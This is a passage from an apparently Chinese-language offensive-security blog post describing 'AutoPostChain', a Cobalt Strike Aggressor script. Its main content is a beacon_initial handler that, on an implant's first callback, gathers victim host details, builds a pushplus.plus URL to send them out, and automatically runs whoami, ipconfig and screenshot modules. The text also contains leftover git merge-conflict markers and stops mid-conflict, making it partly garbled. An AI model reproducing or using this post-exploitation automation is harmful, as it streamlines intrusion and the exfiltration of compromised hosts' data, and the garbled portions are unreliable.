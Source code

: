 
从现有技术来看远远不止这几类执行方式，比如针对 GO 语言为主的大量可执行后渗透工具，同样可以封装函数来实现不落地的情况下加载执行，这里不再阐述。

#### 上线自动触发

**[beacon\_initial](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_events.htm#beacon_initial)** 函数会在 Beacon 第一次回联时触发，AutoPostChain 的主要操作逻辑都放在这个函数中：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
on beacon_initial {
        bsleep($1, $sleepTime);
    blog($1,"\c9Automated Post Exploitation Chain (@lintstar)"); 

    # 获取主机信息
    $internalIP = replace(beacon_info($1, "internal"), " ", "_");
    $externalIP = replace(beacon_info($1, "external"), " ", "_");
    $computerName = replace(beacon_info($1, "computer"), " ", "_");
    $userName = replace(beacon_info($1, "user"), " ", "_");
    $listennerName = replace(beacon_info($1, "listener"), " ", "_");
    $processName = replace(beacon_info($1, "process"), " ", "_");
    $pidName = replace(beacon_info($1, "pid"), " ", "_");
    $archName = replace(beacon_info($1, "arch"), " ", "_");
    $onlineUrl = 'https://www.pushplus.plus/send?token='.$pushplusToken.'&title=%5B'.$cserverName.'%5D%20%E5%92%AC%E9%92%A9%20%F0%9F%8E%AE%20'.$processName.'&template=markdown&content=HostName%3A%20'.$computerName.'%0A%0AExternal%3A%20'.$externalIP.'%0A%0AInternal%3A%20'.$internalIP.'%0A%0AUserName%3A%20'.$userName.'%0A%0AProcess%3A%20'.$processName.'%0A%0APid%3A%20'.$pidName;
        beacon_inline_execute($1, readbof($1, "whoami"), "go", $null);
        beacon_inline_execute($1, readbof($1, "ipconfig"), "go", $null);
        beacon_inline_execute($1,readobj($1, "screenshot"), "go", $null);
}
```

通过简单的几行代码可以实现主机上线后自动执行 whoami、ipconfig、screenshot BOF 的效果：

<<<<<<< HEAD
[![](assets/1710898890-aee75f94eef5053ab67d8ee278914032.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240311172914-d36405c8-df89-1.png)
=======